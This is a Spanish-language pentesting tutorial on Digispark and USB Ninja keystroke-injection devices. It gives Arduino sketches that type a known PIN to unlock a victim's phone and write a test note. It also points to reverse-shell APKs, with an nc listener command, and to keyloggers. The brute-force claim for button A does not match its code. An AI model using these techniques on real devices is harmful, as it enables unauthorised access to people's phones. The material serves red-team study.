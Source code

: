 ```yaml
---
icon: newspaper
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Digispark/USB Ninja (Función)

En esta prueba veremos a como desbloquear el patron de un movil (Patron de numeros) pero ya programado sabiendo el patron y las funcionalidades del mismo una vez estando dentro del movil y las diferencias de los 2.

## <mark style="color:purple;">DigiSpark General</mark>

### DigiSpark desbloqueo de patron y escribir una frase de prueba en un bloq de notas (movil)

Primero tendremos que programar mediante `Arduino` en el microcontrolador llamado `DigiSpark` volcarle el script que utilizaremos para el desbloqueo de pantalla cuando insertemos el mismo en el movil

Utilizaremos la biblioteca `DigiKeyboard`.

Instalaremos el software llamado `Arduino IDE`, despues echo esto entraremos dentro del mismo para programar el `DigiSpark`.

URL = [Arduino IDE](https://www.arduino.cc/en/software)

Dentro del software escribiremos algo parecido a esto:

```cpp
#include "DigiKeyboard.h"

void setup() {

  // Pausa para dar tiempo a que el móvil detecte el dispositivo

  DigiKeyboard.delay(5000);  // Espera 5 segundos para que el teléfono esté listo

  // Simular la entrada del patrón numérico (por ejemplo, "1234" como código de desbloqueo)

  DigiKeyboard.sendKeyStroke(KEY_1);  // Presiona '1'

  DigiKeyboard.delay(300);  // Breve pausa entre teclas

  DigiKeyboard.sendKeyStroke(KEY_2);  // Presiona '2'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_3);  // Presiona '3'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_4);  // Presiona '4'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);  // Presiona 'Enter' para confirmar el PIN

  // Pausa para asegurarse de que el móvil se ha desbloqueado

  DigiKeyboard.delay(2000);

  // Abre el bloc de notas (simulación de teclas). Dependiendo del móvil, esto puede requerir ajustar los comandos.

  // Simula la búsqueda de la aplicación de Notas usando el botón de búsqueda en Android

  DigiKeyboard.sendKeyStroke(KEY_F3);  // Presiona la tecla 'Buscar'

  DigiKeyboard.delay(1000);

  DigiKeyboard.println("notas");  // Escribe "notas" en la búsqueda

  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);  // Presiona 'Enter' para abrir la aplicación

  // Esperar un momento para que la aplicación se abra

  DigiKeyboard.delay(2000);

  // Escribir el mensaje de prueba en el bloc de notas

  DigiKeyboard.println("Este es un mensaje de prueba desde DigiSpark");

}

void loop() {

  // No es necesario repetir nada en el loop, ya que solo necesitamos ejecutar el código una vez

}
```

Y con esto lo que hara sera que cuando introduzcamos el `DigiSpark` en el movil, desbloqueara el patron programado y buscara el bloq de notas abriendolo y escribiendo en el mismo la frase de prueba.

Con esta tecnica tambien se podria descargar desde un servidor externo de `python3` un `APK` programada por nosotros que contenga una `Reverse Shell` y estando a la escucha desde un host nuestro de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Podremos ganar acceso al sistema del movil mediante una terminal en nuestro host (Todo de forma automatizada).

O se podria hacer un `KeyLogger` para capturar los pulsos de teclas del patron o de informacion debil.

## <mark style="color:purple;">USB Ninja + Cable Bluetooth General</mark>

### USB Ninja desbloqueo de patron y escribir una frase de prueba en un bloq de notas todo mediante un cable Bluetooth (movil)

El USB Ninja tiene 2 botones (A y B) que con ellos podremos desplegar diferentes cargas utiles hacia el dispositivo de la Victima (Las que programemos nosotros).

Todo este ataque se hara mediante `Bluetooth` ya que el USB Ninja lleva incorporado una antena por la que transmite la señal hacia un transmisor `Bluetooth` en el que estara conectado al dispositivo de la Victima, podremos utilizar el `Cable Ninja Bluetooth` que lleva incorporado todo lo anterior (Externamente es una cable normal de carga de tipo C, pero por dentro lleva un sistema `Bluetooth` para que se pueda conectar el USB Ninja)

En el equipo Atacante programamos mediante el software `Arduino IDE` el USB Ninja con las respectivas funciones de los botones que queremos que haga, por ejemplo estableceremos que cuando se presione el `Boton A` haga una fuerza bruta para desbloquear el patron y cuando se presione el `Boton B` que se habra el bloq de notas y se escriba la frase de prueba.

```cpp
#include <USBNinja.h>

void setup() {

  USBNinja.begin(); // Iniciar el USB Ninja
  
}

void loop() {

  // Cuando se presiona el botón A, se envía el patrón PIN para desbloquear el móvil

  if (USBNinja.buttonA()) {

    // Simular el ingreso del código PIN (por ejemplo, "1234")

    USBNinja.sendKeyStroke(KEY_1); // Presiona '1'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_2); // Presiona '2'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_3); // Presiona '3'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_4); // Presiona '4'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_ENTER); // Confirmar el PIN con 'Enter'

    USBNinja.delay(2000); // Pausa para asegurarse de que el teléfono se ha desbloqueado

  }

  // Cuando se presiona el botón B, abre el bloc de notas y escribe un mensaje de prueba

  if (USBNinja.buttonB()) {

    // Simular abrir el bloc de notas (ajustar según el dispositivo)

    USBNinja.sendKeyStroke(KEY_F3); // Buscar en el teléfono (F3 es una tecla común de búsqueda)

    USBNinja.delay(1000); // Esperar que aparezca el campo de búsqueda

    USBNinja.println("notas"); // Escribir "notas" en el campo de búsqueda

    USBNinja.delay(500); // Pausar antes de presionar Enter

    USBNinja.sendKeyStroke(KEY_ENTER); // Presiona 'Enter' para abrir la app de Notas

    USBNinja.delay(2000); // Esperar que la app de Notas se abra

    // Escribir el mensaje de prueba en el bloc de notas

    USBNinja.println("Este es un mensaje de prueba desde USB Ninja");

  }

}
```

Esto lo que hace es desbloquear el movil con el `Boton A` y cuando se presione el `Boton B` que se habra el bloq de notas y se escriba la frase de prueba.

A parte de el texto de prueba, se puede hacer mucho mas como por ejemplo `Reverse Shell` o `KeyLoggers`, tambien la tecnica de las `Stiky Keys`, etc...

URL = [Pagina USB Ninja](https://lab401.com/es-es/products/usbninja?srsltid=AfmBOoq-v9GiW8FI27gS4XAFEIymS1ttCIRpMyqGIhuVpUA9u_KYtbAK)

## <mark style="color:purple;">Conclusión final</mark>

El USB Ninja + el cable bluetooth es la mejor eleccion ya que a la hora de hacer pentesting en red team es muy eficaz y muchisimo mas discreto, sin embargo el DigiSpark es menos sigiloso y menos variedad de programación ya que es muy limitada.
